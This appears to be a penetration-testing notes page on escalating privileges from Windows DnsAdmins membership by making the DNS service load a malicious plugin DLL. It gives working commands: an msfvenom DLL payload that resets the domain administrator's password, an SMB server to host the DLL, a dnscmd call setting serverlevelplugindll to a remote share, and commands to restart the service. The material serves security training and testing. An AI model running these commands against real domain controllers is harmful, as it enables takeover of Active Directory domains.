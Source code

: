 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DnsAdmins

## Information

This membership can be exploited by performing a **DLL injection**, i.e. specifying a plugin DLL that can be loaded upon (re)starting the DNS service.

## Exploitation

### Admin Password

Generate a malicious DLL and [transfer it](../../../tools/file-transfers.md) to the target.

{% hint style="danger" %}
Passing any payload this way **crashes the DNS server** as it never really starts. More information on how to bypass this issue by executing the payload as a thread [here](https://youtu.be/8KJebvmd1Fk?t=3034).
{% endhint %}

{% code overflow="wrap" %}
```bash
# generating the payload
sudo msfvenom -p windows/x64/exec cmd='net user administrator Password123! /domain' -f dll > da.dll
# starting an SMB server
$ impacket-smbserver -smb2support share ./
```
{% endcode %}

Set the DLL path from the compromised host and restart the DNS service (DnsAdmins cannot restart services by default, but it not uncommon to be given that right).

{% code overflow="wrap" %}
```powershell
# setting the Windows Registry remote DLL path
dnscmd.exe [FQDN] /config /serverlevelplugindll \\10.10.14.3\share\da.dll
```
{% endcode %}

Restart the DNS service. `DnsAdmins` members cannot restart services by default using `sc`, but they can do it with `dnscmd`.

{% tabs %}
{% tab title="dnscmd" %}
```powershell
dnscmd [FQDN] /restart
```
{% endtab %}

{% tab title="sc" %}
```powershell
# stop service
sc.exe stop dns
# start service
sc.exe start dns
```
{% endtab %}
{% endtabs %}

For an example of the above process check [here](https://x7331.gitbook.io/boxes/boxes/boxes/medium/resolute#elevation-of-privileges).

## Resources

{% tabs %}
{% tab title="Exploitation" %}
{% embed url="https://adsecurity.org/?p=4064" %}
{% endtab %}

{% tab title="DnsAdmins In-depth" %}
{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}
{% endtab %}
{% endtabs %}
